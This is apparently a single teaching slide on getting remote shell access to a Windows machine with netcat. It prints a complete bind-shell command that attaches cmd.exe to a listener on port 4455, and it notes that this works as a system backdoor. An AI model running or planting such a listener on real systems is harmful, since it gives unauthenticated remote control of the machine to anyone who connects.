

# Obtain Remote Access to a Shell
To get command prompt of a Windows system from anywhere in
   the world, the following netcat command can be run on that
   particular Windows system.
nc -l -e cmd.exe 10.0.1.2 4455
The above Ncat example has opened a listener (-l) that will execute
   (-e) the cmd.exe command and attach the command prompt
   input/output to any connection on port 4455.
This can behave like a system backdoor on the Windows system.